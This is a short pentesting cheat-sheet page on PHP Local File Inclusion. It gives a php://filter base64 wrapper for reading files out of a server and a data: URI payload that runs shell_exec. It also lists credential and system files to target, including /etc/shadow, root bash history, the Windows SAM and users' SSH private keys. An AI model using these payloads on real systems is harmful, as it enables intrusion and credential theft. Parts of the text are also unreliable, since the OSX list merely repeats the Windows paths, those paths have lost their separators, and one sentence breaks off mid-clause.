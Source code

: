 ```yaml
---
description: >-
  A remote file inclusion vulnerability allows an attacker to remotely execute a
  script on the target machine even if it's not available locally.
---
```


# Local File Inclusion (LFI)

### Example

If we want to get a file then it is best to base64 encode it. This will ensure that we can exfiltrate files rather than have Apache read the file. This can be accomplished with the following command:

```php
php://filter/convert.base64-encode/resource=[FILE]
```

Additionally, the following command demonstrates  how we could execute code if&#x20;

```bash
data:text/plain,<?php echo shell_exec("dir") ?>
```

The sections following lists common but interesting files to look at when testing for Local File Inclusion:

### Linux

```
/etc/issue
/proc/version
/etc/profile
/etc/passwd
/etc/passwd
/etc/shadow
/root/.bash_history
/var/log/dmessage
/var/mail/root
/var/spool/cron/crontabs/root
```

### Windows

```
%SYSTEMROOT%repairsystem
%SYSTEMROOT%repairSAM
%WINDIR%win.ini
%SYSTEMDRIVE%boot.ini
%WINDIR%Panthersysprep.inf
%WINDIR%system32configAppEvent.Evt
```

### OSX

```
%SYSTEMROOT%repairsystem
%SYSTEMROOT%repairSAM
%SYSTEMROOT%repairSAM
%WINDIR%win.ini
%SYSTEMDRIVE%boot.ini
%WINDIR%Panthersysprep.inf
%WINDIR%system32configAppEvent.Evt
```

### Additional Notes

* Sometimes during Local File Inclusion, the web server appends something like ‘.php’ or '.config' to the included file. For example, including ‘/etc/passwd’ gets rendered as ‘/etc/passwd.php’. This occurs when the include function uses a parameter like _?page_ and concatenates the .php extension to the file. In versions of PHP below 5.3, ending the URL with a null byte (%00) would cause the interpreter to stop reading, which would allow the attacker to include their intended page. Additionally, this can be observed if you're host a SimpleHTTPServer with Python.
* If you have LFI on a Linux host, you may be able to access the `.ssh/id_rsa` file of any identified users.

### References

{% embed url="https://www.offensive-security.com/metasploit-unleashed/file-inclusion-vulnerabilities" %}
